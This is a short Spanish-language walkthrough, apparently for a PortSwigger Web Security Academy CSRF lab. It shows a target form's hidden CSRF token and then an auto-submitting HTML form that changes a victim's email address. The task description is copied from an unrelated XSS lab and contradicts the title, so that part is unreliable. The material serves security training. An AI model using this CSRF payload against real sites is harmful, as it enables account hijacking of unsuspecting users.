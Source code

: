Lo mandamos a la víctima y completamos el laboratorio.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: CSRF where token validation depends on request method

### Enunciado

Este laboratorio bloquea todas las etiquetas HTML excepto las personalizadas (custom tags). Realizar un ataque de cross-site scripting (XSS) que inyecte una etiqueta personalizada y que muestre automáticamente un `alert(document.cookie)`.

### Resolución

Nos logueamos. Vemos el código fuente.

```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required="" type="email" name="email" value="">
<input required="" type="hidden" name="csrf" value="p5IRmsvYi1dvF5KChXztQ996AP0jHmHk">
<button class="button" type="submit"> Update email </button>
 </form>
```

Como podemos ver tenemos el valor CSRF escondido. Vamos al exploit server para poner el ataque CSRF.

```
<html>
	<body>
		<form action="https://0a5900700399a8b783b41a3e00420018.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="hola@beafn28.com">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```
